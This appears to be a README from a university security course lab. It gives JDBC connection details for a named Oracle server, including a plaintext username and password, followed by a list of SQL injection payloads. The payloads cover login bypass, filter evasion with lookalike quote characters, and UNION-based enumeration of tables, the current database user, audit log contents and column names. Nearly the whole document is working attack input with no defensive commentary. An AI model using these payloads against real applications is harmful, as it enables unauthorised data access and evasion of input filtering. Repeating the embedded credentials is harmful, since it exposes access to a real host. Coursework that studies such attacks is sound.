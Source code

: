 
### Database Details
|Detail|Value|
|---|:---:|
|JDBC Connection String|`jdbc:oracle:thin:@csse-oracle3.canterbury.ac.nz:1521:CSORA131`|
|Username|`COSC424`|
|Password|`not2secure`|

### SQL Injections
#### Get all users
```sql
' OR 1=1--
```

#### Get all users
```sql
' OR username LIKE '%'--
```

#### Get all users + Meta Filtering
```sql
ʼ or 1 like 1 or 2 like ʼ
```

#### Get all users + Meta Filtering
```sql
ʼ or ʼfooʼ is NOT Null or 2 like ʼ
```

#### Get all tables
```sql
' and 1=0 union select TABLE_NAME as username, TABLESPACE_NAME as upassword from user_tables, users--
```

#### Get current db user name
```sql
' and 1=0 union select user as username, user as upassword from dual--
```

#### Get audits table 1
```sql
' and 1=0 union select useracct as username, actype as upassword from auditlog--
```

#### Get audits table 2
```sql
' and 1=0 union select useracct as username, COMMAND as upassword from auditlog--
```

#### Get user table columns
```sql
' or 1=0 union select COLUMN_NAME as username, DATA_TYPE as upassword from ALL_TAB_COLUMNS where TABLE_NAME='USERS'--
```

#### Get auditlog table columns
```sql
' or 1=0 union select COLUMN_NAME as username, DATA_TYPE as upassword from ALL_TAB_COLUMNS where TABLE_NAME='AUDITLOG'--
```

